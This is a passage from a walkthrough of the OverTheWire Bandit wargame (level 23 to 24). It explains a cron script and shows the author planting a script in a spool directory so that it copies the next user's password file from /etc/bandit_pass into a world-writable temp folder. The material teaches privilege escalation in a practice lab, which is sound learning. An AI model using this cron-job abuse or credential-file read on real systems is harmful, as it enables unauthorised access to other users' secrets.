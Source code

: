 The script is simple, I could break it down into the following steps:

- save the user name `bandit24` in a variable.
- uses the avobe mentioned variable to move to a particular directory
- it runs through the entire contents of the directory with a `for` loop except for the files that point to the current directory and the parent, checks that the owner of the file is `bandit 23` and executes it for 60s.
- deletes the previously executed file

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_88.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

I think the best way to get the password, is to create a small script, that copies the content of the file where it is saved in a file that I indicate. To do this I must create the script and give it the permission so that others can also run it and I get what I want. I also must not forget to give permissions of execution and writing to the directory that I create temporarily, so that `bandit24` can write in it.

```bash
cd /tmp
mktemp -d
cd /tmp/tmp.0c6wze5jbN

chmod o+wx ../tmp.0c6wze5jbN

nano pwned.sh
```

> `pwned.sh` script:

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/tmp.0c6wze5jbN/pass.txt
```

```bash
chmod +x pwned.sh
chmod o+x pwned.sh
cp pwned.sh /var/spool/bandit24/foo/pwned.sh
watch -n 1 ls -l
```

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_89.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

I advance to the next challenge, I can now log in as the user **`bandit24`**.

<br />
<img src="{{ site.img_path }}/overthewirebandit/OTH_bandit_90.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">  
<br />

## Level 24
-----------
